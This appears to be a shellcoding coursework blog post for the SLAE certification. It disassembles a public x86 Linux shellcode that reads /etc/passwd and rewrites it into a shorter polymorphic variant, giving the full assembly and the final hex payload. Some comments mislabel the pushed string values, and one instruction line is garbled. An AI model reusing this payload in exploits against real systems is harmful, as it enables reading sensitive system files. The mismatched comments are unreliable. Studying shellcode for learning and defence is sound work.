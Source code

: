 # Shellcode - read /etc/passwd

[http://shell-storm.org/shellcode/files/shellcode-842.php](http://shell-storm.org/shellcode/files/shellcode-842.php)

```c
echo -n "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -
```


# Disassembled

I have taken the disassembly and put it in a `.nasm` file format as  a starting point. I also marked some important values in comments.

```assembly
global _start

section .text
_start:
    xor ecx,ecx
    mul ecx
    mov al,0x5      ; open()
    push ecx
    push dword 0x64777373       ; "dwss"
    push dword 0x61702f63       ; "ap/c"
    push dword 0x74652f2f       ; "te//"
    mov ebx,esp
    int 0x80

    xchg eax,ebx
    xchg eax,ecx
    mov al,0x3       ; read()
    xor edx,edx
    mov dx,0xfff
    inc edx
    int 0x80

    xchg eax,edx
    xor eax,eax
    mov al,0x4          ; write()
    mov bl,0x1      ; STDOUT
    int 0x80


    xchg eax,ebx        ; mov 0x1 into eax, exit()
    int 0x80t 0x80

```

# Changes

Since my goal was to reduce the number of bytes for extra credit, I did not change too many things, but the code is polymorphic and differs from the original.

First, I just changed the string that is pushed to the stack from `//etc/passwd` to `/etc//passwd`.

```assembly
; push dword 0x61702f63       ; "ap/c"
; push dword 0x74652f2f       ; "te//"
push dword 0x61702f2f       ; "ap/c"
push dword 0x6374652f       ; "te//"
```

I then removed the `xor` to clear `edx` as it should have been cleraed from the previous `xor ecx, ecx; mul ecx` instructions. This saves me two bytes from the original shellcode in total length.

```assembly
; xor edx,edx       
; edx is already cleared from `mul` instruction above 
```

Instead of moving `0xfff` into `dx` and incrementing, I move `0x1001` into `dx` and decrement.

```assembly
; mov dx,0xfff
; inc edx
mov dx, 0x1001
dec edx
```

Here I change an `xor` with a `sub`. This may not work on all operating systems.

```assembly
; xor eax,eax
sub eax, eax
```

I then change an `xchg` to a `mov` instruction for the exit() syscall. Since I have removed 2 bytes from the shellcode up until now, this instruction adds one extra byte from the original and places me one byte less than the original for my final shellcode.


```assembly
; xchg eax,ebx        ; mov 0x1 into eax, exit()
mov al, 0x1
```

# Final Shellcode

```assembly
global _start

section .text
_start:
    xor ecx,ecx
    mul ecx

    mov al,0x5      ; open()
    push ecx
    push dword 0x64777373       ; "dwss"
    ; push dword 0x61702f63       ; "ap/c"
    ; push dword 0x74652f2f       ; "te//"
    push dword 0x61702f2f       ; "ap/c"
    push dword 0x6374652f       ; "te//"
    
    mov ebx,esp
    int 0x80

    xchg eax,ebx
    xchg eax,ecx
    mov al,0x3       ; read()

    ; xor edx,edx       
    ; edx is already cleared from `mul` instruction above 

    ; mov dx,0xfff
    ; inc edx
    mov dx, 0x1001
    dec edx

    int 0x80

    xchg eax,edx

    ; xor eax,eax
    sub eax, eax
    
    mov al,0x4          ; write()
    mov bl,0x1        ; STDOUT
    int 0x80

    ; xchg eax,ebx        ; mov 0x1 into eax, exit()
    mov al, 0x1

    int 0x80
```

Final Shellcode: 

```c
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80"
```

Original shellcode length: 51 bytes

My shellcode length: 50 bytes



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

